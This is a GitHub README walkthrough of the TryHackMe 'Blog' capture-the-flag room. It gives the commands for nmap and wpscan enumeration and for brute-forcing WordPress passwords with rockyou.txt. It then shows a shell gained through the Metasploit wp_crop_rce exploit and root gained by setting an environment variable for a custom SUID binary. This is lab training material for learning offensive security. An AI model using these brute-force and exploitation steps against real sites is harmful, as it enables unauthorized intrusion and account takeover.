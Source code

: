 TryHackMe Room: Blog

This repository documents my walkthrough and learnings from the **Blog** room on [TryHackMe](https://tryhackme.com/room/blog). It focuses on WordPress enumeration, brute-force login, remote code execution, and privilege escalation via SUID binary exploitation.

 Room Overview

- **Name**: Blog
-**Difficulty**: Medium
- **IP**:  10.10.139.126
- **Main Goals**:
  - Gain access to WordPress dashboard
  - Exploit RCE to get shell
  - Privilege escalate using custom SUID binary
  - Capture user.txt and root.txt flags

## 🧰 Tools Used

| Tool       | Purpose                       |
|------------|-------------------------------|
| nmap       | Port scanning                 |
| gobuster   | Directory enumeration         |
| wpscan     | WordPress scanning & bruteforce |
| metasploit  | Reverse shell                  |


## 🚩 Walkthrough Summary

### 1. Enumeration

```bash
nmap -sC -sV -T5  10.10.139.126 -oN nmap.txt


2 port are opens 22 ssh and 80 http

add /etc/hosts file

10.10.139.126 blog.thm


open blog.thm on broswer find the login page.

WordPress Exploitation
Use wpscan for user enumarions
wpscan –url http://blog.thm -e u

2 users found kwheel ,bjoel

password brute forcing 

wpscan –url http://blog.thm -U kwheel -P /usr/share/SecList/Passwords/Leaked-Databases/rockyou.txt

login the user and passwor

the wordpress versoin 5.0.0

Gaining Shell
Use metasploit
the start metasploit 
msfconsole
search wordpress 5.0.0
use exploit/multi/http/wp_crop_rce
www-data@blog:/var/www/wordpress$ 

Privilege Escalation
Found SUID binary: this command
find / -type f -user root -perm -u=s 2>/dev/null

/usr/sbin/checker

Analyze with strings or Ghidra → Looks for admin environment variable.

export admin=1
/usr/sbin/checker

Root shell access.
Key Learnings
      WordPress RCE via admin panel
      Password brute-force using wpscan
      Privilege escalation via SUID environment variable injection
      Importance of checking SUID and environment behavior

